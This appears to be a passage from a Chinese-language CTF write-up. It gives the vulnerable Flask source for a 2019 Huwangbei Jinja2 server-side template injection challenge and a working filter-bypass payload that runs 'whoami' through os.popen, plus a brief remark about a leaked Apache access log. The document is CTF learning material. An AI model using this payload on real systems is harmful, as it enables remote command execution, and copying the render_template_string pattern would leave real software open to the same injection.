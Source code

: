 非预期，log目录泄露了apache的access_log，直接访问flag页

***

## 2019护网杯

### SSTI

忘记题目名是什么了，大概就是Jinja SSTI，过滤了`d, _, lower, [, ], '`，因为没有`_`和`[]`，所以按常规方法无法访问到魔术属性，赛后sec wiki转了一篇文章

https://0day.work/jinja2-template-injection-filter-bypasses/amp/

通过Jinjs的过滤器来访问属性，这样就解决了过滤方括号的限制且可以任意拼接字符串

题目源码大概是这样

```python
from flask import Flask, render_template, render_template_string, request
app = Flask(__name__)

@app.route("/")
def index():
    exploit = request.args.get('code')
    for w in ['d', '_', 'lower', "'", '[', ']']:
        if w in exploit:
            return w
    rendered_template = "%s" %exploit

    return render_template_string(rendered_template)

if __name__ == "__main__":
    app.run(debug=True)
```

payload：

{% raw %}

```
/?code={% set x,a1,a2,a3,a4,a5,a6,a7,a8,a9,a10,a11,c=request.args.x,request.args.a1,request.args.a2,request.args.a3,request.args.a4,request.args.a5,request.args.a6,request.args.a7,request.args.a8,request.args.a9,request.args.a10,request.args.a11,request.args.c %}
{{""|attr((x*2,a2,x*2)|join)|attr((x*2,a3,x*2)|join)|attr((x*2,a1,x*2)|join)(-1)|attr((x*2,a4,x*2)|join)()|attr((x*2,a1,x*2)|join)(54)|attr((x*2,a5,x*2)|join)|attr((a6,x,a7)|join)|attr((x*2,a1,x*2)|join)(a8)|attr(a9)|attr(a10)(c)|attr(a11)()}}&x=_&a1=getitem&a2=class&a3=mro&a4=subclasses&a5=init&a6=func&a7=globals&a8=linecache&a9=os&a10=popen&a11=read&c=whoami
```

{% endraw %}

也就是

```
"".__class__.__mro__[-1].__subclasses__()[54].__init__.func_globals['linecache'].os.popen('whoami').read()
```
